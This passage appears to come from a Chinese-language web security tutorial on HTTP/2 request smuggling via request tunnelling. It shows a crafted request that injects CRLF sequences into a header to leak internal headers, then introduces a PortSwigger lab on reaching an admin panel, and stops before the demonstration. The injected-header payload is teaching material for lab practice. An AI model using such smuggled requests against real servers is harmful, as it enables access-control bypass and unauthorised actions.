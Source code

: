 ![img](assets/1706773318-520d8df763672cd3144b517a3a365ce9.jpg)

### 头部泄露

假设我们发送了一个类似如下的请求来将内部头追加到将成为后端主体参数的内容中。

```c
:method POST
:path   /comment
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
foo 
bar\r\n
Content-Length: 200\r\n
\r\n
comment=
x=1
```

在这种情况下，前端和后端都同意只有一个请求，有趣的是可以让它们在报头结束的位置上产生分歧，前端将我们注入的所有内容都视为头部的一部分，因此在尾部comment=string之后，另一方面后端看到`\r\n\r\n`序列认为这是标头的结尾，`comment= string`以及内部头被视为正文的一部分。

```c
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
comment=X-Internal-Header: secretContent-Length: 3
x=1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling "https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级HTTP/2请求并且无法充分净化传入的头名称，要解决该实验你需要以管理员用户身份访问/admin中的管理面板并删除用户carlos，需要注意的是本环境中前端服务器不重用到后端的连接，因此不容易受到传统的请求走私攻击，然而它仍然容易受到隧道请求的攻击。

靶场演示：
